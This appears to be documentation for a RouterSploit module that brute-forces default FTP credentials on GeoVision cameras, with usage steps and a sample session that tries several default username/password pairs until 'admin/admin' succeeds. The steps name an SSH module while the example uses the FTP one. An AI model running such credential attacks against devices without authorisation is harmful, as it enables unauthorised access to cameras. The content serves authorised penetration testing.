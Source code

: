 ## Description

Module performs dictionary attack with default credentials against GeoVision Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/cameras/geovision/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/geovision/ftp_default_creds
rsf (GeoVision Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (GeoVision Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
